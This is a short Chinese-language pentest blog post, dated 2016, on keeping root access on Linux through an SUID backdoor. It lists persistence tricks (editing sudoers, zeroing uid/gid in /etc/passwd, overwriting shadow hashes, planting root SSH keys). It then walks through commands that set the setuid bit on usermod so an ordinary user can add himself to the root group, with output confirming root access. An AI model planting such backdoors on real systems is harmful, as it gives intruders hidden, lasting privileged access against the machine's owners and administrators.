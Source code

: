 +++
date = "2016-04-18T20:03:07+08:00"
description = ""
draft = false
tags = ["pentest"]
title = "Linux之USID后门"
topics = ["Linux"]

+++

SUID可以用来做后门，前提是你已经获取了root权限，且给予s权限的文件必须为二进制：

***

## 为二进制文件添加s权限从而提升为root权限方法：
1. 写sudoers添加用户  `//最佳方案`  
2. vim /etc/passwd    `//将uid和gid改为0`
3. vim /etc/shadow    `//密文覆盖`  
4. vim root .ssh/证书文件   `.ssh这个文件夹和证书的权限要正确，要和原来一致`

***

## SUID:这个东西主要是留后门

#### 在root权限下给usermod一个s权限：

    # which usermod   //得到usermod的路径                             
    /usr/sbin/usermod
    # chmod u+s /usr/sbin/usermod
    # ls -l /usr/sbin/usermod
    -rwsr-x---. 1 root root 98680 Dec  7  2011 /usr/sbin/usermod

#### usermod给其他人一个x权限：
    [root@localhost ~]# chmod o+x /usr/sbin/usermod
    [root@localhost ~]# ls -l /usr/sbin/usermod
    -rwsr-x--x. 1 root root 98680 Dec  7  2011 /usr/sbin/usermod

#### 切换到普通用户wyb：
```
	[wyb@localhost ~]$ id wyb
    uid=500(wyb) gid=500(wyb) groups=500(wyb)
	[wyb@localhost ~]$ usermod -g root wyb
	[wyb@localhost ~]$ id wyb
    uid=500(wyb) gid=0(root) groups=0(root)
	[wyb@localhost ~]$ exit
```

#### 验证：	
	重新用wyb连接，此时即为root权限
	[wyb@localhost ~]$ cd /root  //若能切换到此目录即证明确实获得了root权限
    [wyb@localhost root]$ ls
    anaconda-ks.cfg  install.log  install.log.syslog